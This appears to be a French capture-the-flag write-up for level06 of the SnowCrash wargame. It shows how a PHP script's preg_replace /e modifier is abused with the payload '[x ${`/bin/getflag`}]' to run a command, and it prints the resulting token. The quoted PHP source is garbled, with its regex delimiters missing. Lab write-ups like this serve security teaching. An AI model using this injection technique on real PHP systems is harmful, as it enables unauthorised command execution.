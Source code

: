 # level06

1. Fichiers trouvés dans `~/` :

```bash
level06  level06.php
level06@SnowCrash:~$ strings level06 | grep level06
/home/user/level06/level06.php
```

2) Analyse du fichier `level06.php`

Le binaire `level06` peut executer du code php via l'expand (option `e`) de `preg_replace`.

```php
function y($m) { $m = preg_replace(.,  x , $m); $m = preg_replace(@,  y, $m); return $m; }

function x($y, $z) { 
  $a = file_get_contents($y); 
  $a = preg_replace(([x (.*)])e, y(2), $a); 
  $a = preg_replace([, (, $a); 
  $a = preg_replace(], ), $a); 
  return $a; 
}
$r = x($argv[1], $argv[2]); print $r;

```
3) Exploitation pour récupérer le token :

* On crée une chaine pour `preg_replace` :```echo '[x ${`/bin/getflag`}]'```

On l'exécute :
```bash
level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' | ./level06 php://stdin 2>&1 | grep token
PHP Notice:  Undefined variable: Check flag.Here is your token : ...
```

4) Token découvert :

Le token est `wiok45aaoguiboiki2tuin6ub`.
